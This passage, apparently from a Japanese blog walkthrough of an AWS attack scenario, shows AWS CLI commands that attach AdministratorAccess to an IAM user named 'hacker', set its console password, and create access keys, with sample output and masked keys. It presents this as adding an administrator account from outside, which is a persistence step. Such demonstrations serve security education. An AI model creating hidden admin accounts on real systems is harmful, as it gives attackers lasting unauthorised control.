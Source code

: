 </div>

####  ユーザにポリシーを付与 (aws iam attach-user-policy)

　AWSユーザ「`hacker`」にポリシー「`AdministratorAccess `」を追加します。  

<div class="md-code" style="width:100%">

```
$ aws iam attach-user-policy \
    --policy-arn arn:aws:iam::aws:policy/AdministratorAccess \
    --user-name hacker
```

</div>

　これで管理者アカウントを外部から追加できたことになります！！

####  ログイン時の認証情報を作成 (aws iam create-login-profile)

　AWSユーザ「`hacker`」にパスワードを設定します。  

<div class="md-code" style="width:100%">

```
$ aws iam create-login-profile \
    --user-name hacker \
    --password hackerPassword@123
```

</div>

<div class="md-code" style="width:100%">

```json
{
    "LoginProfile": {
        "UserName": "hacker",
        "CreateDate": "2023-05-29T14:38:47+00:00",
        "PasswordResetRequired": false
    }
}
```

</div>

#### APIのクレデンシャルを作成 (aws iam create-access-key)

　AWSユーザ「`hacker`」のクレデンシャルを作成します。  

<div class="md-code" style="width:100%">

```
$ aws iam create-access-key --user-name hacker
```

</div>

<div class="md-code" style="width:100%">

```json
{
    "AccessKey": {
        "UserName": "hacker",
        "AccessKeyId": "AKIAVJVXXXXXXXXXXXXX",
        "Status": "Active",
        "SecretAccessKey": "5+VAgyEemxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
        "CreateDate": "2023-05-29T14:38:52+00:00"
    }
}
```
